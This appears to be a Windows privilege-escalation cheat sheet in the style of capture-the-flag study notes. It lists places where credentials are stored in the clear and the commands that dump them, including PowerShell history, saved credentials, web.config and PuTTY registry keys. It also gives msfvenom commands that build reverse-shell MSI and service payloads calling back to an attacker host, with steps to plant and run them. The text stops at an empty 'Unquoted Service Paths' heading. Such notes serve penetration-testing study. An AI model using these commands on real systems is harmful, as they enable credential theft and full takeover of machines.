# Windows Privilege Escalation

### Windows Privilege Escalation

**Windows Users**

Administrators: These users have the most privileges. They can change any system 
configuration parameter and access any file in the system.

Standard Users: These users can access the computer but only perform limited tasks. 
Typically these users can not make permanent or essential changes to the system and are 
limited to their files.

Any Administrators will be part of the Administrators group, Standard Users the Users group

**Built-in accounts**

SYSTEM/LocalSystem: An account used by the operating system to perform internal tasks. It 
has full access to all files and resources available on the host with even higher privileges 
than administrators.

Local Service: Default account used to run Windows services with "minimum" privileges. It 
will use anonymous connections over the network.

Network Service: Default account used to run Windows services with "minimum" privileges. It 
will use the computer credentials to authenticate through the network.

### Harvesting Passwords from Usual Spots

**Unattended Windows Installations**

When installing Windows on a large number of hosts, administrators may use Windows 
Deployment Services, which allows for a single operating system image to be deployed to 
several hosts through the network. 

These kinds of installations are referred to as unattended installations as they don't 
require user interaction. Such installations require 
the use of an administrator account to perform the initial setup, which might end up being 
stored in the machine in the following locations:

C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml

As part of these files, you might encounter credentials:

```
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

**Powershell History**

Display powershell history for current user

cmd.exe
`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

powershell.exe
`type $env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

**Saved Windows Credentials**

List saved Windows credentials

`cmdkey /list`

Use saved credentials to run executables

`runas /savecred /user:<USERNAME> <EXE-FILE>`

**IIS Configuration**

Internet Information Services (IIS) is the default web server on Windows installations. The 
configuration of websites on IIS is stored in a file called web.config and can store 
passwords for databases or configured authentication mechanisms. 

Depending on the installed version of IIS, we can find web.config in one of the following 
locations:

C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Find DB connection strings

`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`

**Retrieve Credentials from Software: PuTTY**

PuTTY stores proxy credentials including cleartext authentication credentials. Search under the following registry key:

`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

### Other Quick Wins

**Scheduled Tasks**

Find scheduled tasks missing a script/binary or using one you can modify

`schtasks /query /tn <TASK-NAME> /fo list /v`

Check permissions of scripts/binaries

`icacls c:\path\to\binary\script`

[icacls permissions list](./icacls-permissions.md)
[icacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)

Insert a payload into the scheduled task and wait for execution

**AlwaysInstallElevated**

Windows installer files (also known as .msi files) are used to install applications on the 
system. They usually run with the privilege level of the user that starts it. However, 
these can be configured to run with higher privileges from any user account (even 
unprivileged ones). This could potentially allow us to generate a malicious MSI file that 
would run with admin privileges.

This method requires two registry values to be set.

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

If they are set you can generate a malicious .msi file with msfvenom

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.169.198 LPORT=LOCAL_PORT -f msi -o malicious.msi`

Set up a reverse shell handler and run msiexec to execute the payload

`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

### Abusing Service Misconfigurations

**Windows Services**

Windows services are managed by a process called the Service Control Manager (SCM). The SCM 
is in charge of managing the state of services as needed, checking the current status of 
any given service and generally providing a way to configure services.

Each service has an associated executable which will be run by the SCM whenever a service 
is started. Service executables implement special functions to be able to communicate with 
the SCM, not any executable can be started as a service successfully. Each service also 
specifies the user account under which the it will run.

Check service configurations with `sc qc`

Services have a Discretionary Access Control List (DACL) indicating who has permission to
start, stop, pause, query status, query configuration, or reconfigure the service, amongst 
other privileges. The DACL can be seen from Process Hacker under the Security tab of a 
service.

The services configurations are in the registry `HKLM\SYSTEM\CurrentControlSet\Services`

A subkey exists for every service in the system. The ImagePath value is the executable run
by the service and ObjectName is the service start name. DACL configuration is stored in a 
subkey called Security. By default only Administrators can modify registry entries.

**Insecure Permissions on Service Executable**

Find a service where the executable has weak permissions (`icacls`) and replace it with a 
malicious service executable generated with msfvenom

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER-IP> LPORT=<PORT> -f exe-service -o malicious-service-executable.exe`

Replace the service executable with the uploaded malicious executable and grant it full 
permissions

`icacls <SERVICE-EXECUTABLE> /grant Everyone:F`

Start a listener on the attacking machine and wait or restart the service if you have 
permissions.

`sc stop <SERVICE-NAME>`
`sc start <SERVICE-NAME>`

**Unquoted Service Paths**
